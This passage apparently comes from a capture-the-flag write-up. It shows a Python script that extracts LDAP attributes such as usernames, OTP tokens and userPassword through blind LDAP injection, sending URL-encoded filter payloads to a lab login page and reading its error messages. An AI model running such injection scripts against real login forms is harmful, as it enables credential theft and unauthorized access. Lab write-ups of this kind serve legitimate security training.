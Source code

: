 So now I have three potential attributes that might hold the token string, `mail`, `pager`, and `userPassword`.

#### Brute the Values

I wrote a python script to brute force the values:

```

  1 #!/usr/bin/env python3
  2 
  3 import requests
  4 import string
  5 import sys
  6 import time
  7 
  8 def brute_next_char(inputUsernameStr, chars):
  9 
 10     for c in chars:
 11         while True:
 12             try:
 13                 time.sleep(0.3)
 14                 resp = requests.post('http://10.10.10.122/login.php', data={'inputUsername': inputUsernameStr.format(c=c), 'inputOTP': '0000'})
 15                 break
 16             except requests.exceptions.ConnectionError:
 17                 time.sleep(10)
 18                 continue
 19         if 'Cannot login' in resp.text:
 20             sys.stdout.write(c)
 21             sys.stdout.flush()
 22             return c
 23     return ''
 24 
 25 
 26 def brute_username():
 27 
 28     username = ''
 29     while True:
 30         next_char = brute_next_char(f'{username}{{c}}%2a', string.ascii_lowercase)
 31         if next_char == '':
 32             break
 33         username += next_char
 34     print()
 35     return username
 36 
 37 
 38 def brute_attribute(attrib, character_set):
 39 
 40     otp = ''
 41     while True:
 42         next_dig = brute_next_char(f'ldapuser%29%28{attrib}%3d{otp}{{c}}%2a', character_set)
 43         if next_dig == '':
 44             break
 45         otp += next_dig
 46     print()
 47     return otp
 48 
 49 options = 'all username mail pager userPassword'.split(' ')
 50 user_opt = sys.argv[1] if len(sys.argv) > 1 else 'all'
 51 
 52 if user_opt not in options:
 53     print("Usage: {} [attribute]\nAvailable Options:\n  {}\n".format(sys.argv[0], '\n  '.join(options)))
 54     sys.exit()
```